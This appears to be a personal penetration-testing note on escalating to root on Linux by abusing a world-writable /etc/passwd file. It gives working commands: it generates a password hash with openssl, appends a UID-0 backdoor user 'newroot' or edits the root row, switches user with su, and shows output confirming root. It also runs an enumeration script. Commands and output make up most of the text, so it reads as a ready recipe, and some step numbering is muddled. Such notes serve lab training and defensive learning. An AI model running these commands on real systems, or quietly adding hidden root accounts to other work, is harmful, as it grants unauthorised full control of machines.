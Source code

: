 ```yaml
---
category: Uncategorized
tags: [pentest]
created: 2024-12-21

---
```

The /etc/passwd historically contained user password hashes.

For backwards compatibility, if the second field of a user row in /etc/passwd contains a password hash, it takes precedent over the hash in /etc /shadow.

If we can write to /etc/passwd, we can easily enter a known password hash for the root user, and then use the su command to switch to the root user.

Alternatively, if we can only append to the file, we can create a new user but assign them the root user ID (0). This works because Linux allows multiple entries for the same user ID, as long as the usernames are different.

The root account in /etc/passwd is usually configured like this:

`root:x:0:0:root:/root:/bin/bash`

The “x” in the second field instructs Linux to look for the password hash in the /etc/shadow file.

In some versions of Linux, it is possible to simply delete the “x”, which Linux interprets as the user having no password:

`root::0:0:root:/root:/bin/bash`

```bash - target
./lse.sh -l 1 -i | more
```

![[Pasted image 20211230133209.png]]

1. Check the permissions of the /etc/passwd file:

```bash - target
ls -l /etc/passwd
```

`-rw-r--rw- 1 root root 951 May 13 2017 /etc/passwd`

Note that it is world writable.

```bash - target
echo "newroot:$(openssl passwd password):0:0:root:/root:/bin/bash" >> /etc/passwd
```

or 

2. Generate a password hash for the password “password”

using openssl :

```bash - kali
openssl passwd "password"
```

`L9yLGxncbOROc`

3. Edit the /etc/passwd file and enter the hash in the second field of the root user row:
4. 
> newroot:L9yLGxncbOROc:0:0:root:/root:/bin/bash

4. Use the su command to switch to the root user:

```bash - target
su newroot
```

```bash - target
password
```

```bash - target
id
```

> uid=0(root) gid=0(root) groups=0(root)

5. Alternatively, append a new row to /etc/passwd to create an alternate root user (e.g. newroot):

```bash
echo "newroot:L9yLGxncbOROc:0:0:root:/root:/bin/bash" >> /etc/passwd
```

6. Use the su command to switch to the newroot user:

```bash - target
su newroot
```

```bash - target
password
```

```bash - target
id
```

> uid=0(root) gid=0(root) groups=0(root)























